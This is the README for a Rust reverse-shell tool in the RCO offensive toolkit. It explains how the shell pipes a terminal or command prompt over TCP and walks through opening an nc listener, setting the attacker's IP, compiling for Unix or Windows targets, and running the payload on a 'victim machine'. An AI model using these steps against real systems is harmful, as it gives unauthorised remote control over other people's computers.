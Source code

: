 # RCO: TCP Reverse Shell

## What it is

RCO's TCP reverse shell is a no-frills [reverse shell](http://127.0.0.1). This means it allows you to run Terminal (Unix)
or Command Prompt (Windows) commands _on the victim machine_ from the attacking machine. Getting a remote shell on a
victim machine usually allows much more control over the victim than other attacks. 

## How it works

Both RCO's Unix and Windows TCP reverse shells work by establishing a [TCP session](http://127.0.0.1) from the victim machine
to the attacking machine. Then a Terminal (Unix) or Command Prompt (Windows) process is spun up with its [standard input](http://127.0.0.1),
[standard output](http://127.0.0.1), and [standard error](http://127.0.0.1) all assigned to the TCP session. This means that
input commands and output results are read from and written to (respectively) a TCP stream.

## Using it

1. Start a listener on the attacking machine
    ```commandline
    nc -nlvp 4444
    ```

2. Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/tcp_reverse_shell/src/config.rs) 
and change the IP address and port to match your attacking machine and listener, respectively

3. Compile the executable
    #### For Unix targets
    ```commandline
    cargo build -p tcp_reverse_shell --release
    ```

    #### For Windows targets
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p tcp_reverse_shell --release
    ```

4. Execute the payload on the victim machine

5. Return to the listener and enter desired commands for the victim machine to run